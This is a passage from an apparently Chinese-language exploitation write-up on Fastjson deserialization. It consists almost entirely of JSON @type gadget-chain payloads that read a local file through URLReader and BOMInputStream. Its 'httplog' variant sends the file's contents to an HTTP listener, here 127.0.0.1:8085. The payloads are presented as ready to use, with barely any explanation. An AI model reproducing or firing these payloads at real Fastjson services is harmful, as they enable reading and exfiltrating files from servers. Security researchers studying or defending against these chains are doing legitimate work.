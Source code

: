 ```plain
{"su14":{"@type":"javax.xml.transform.SourceLocator","@type":"org.apache.xpath.objects.XNodeSetForDOM","nodeIter":{"@type":"org.apache.xpath.NodeSet"},"xctxt":{"@type":"org.apache.xpath.XPathContext","primaryReader":{"@type":"org.dom4j.io.XMLWriter","entityResolver":{"@type":"org.dom4j.io.SAXContentHandler","inputSource":{"byteStream":{"@type":"java.io.InputStream"}}}}}}}
```

```plain
{"su15":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"file:///C:/Users/whoami/Desktop/testtest.txt"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98]}]}}
```

[![](assets/1706254407-a31b52a8cc1835faea31b4253d0024dd.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021152553230.png)

#### 4.1.2.2 httplog 回显法

修改`4.1.2.1`中最后一步为如下`payload`：

```plain
{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"java.util.Locale","language":"http://127.0.0.1:8085/?test","country":{"@type":"java.lang.String"[{"@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"C:/Users/whoami/Desktop/testtest.txt"}]}}},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98]}]}
```
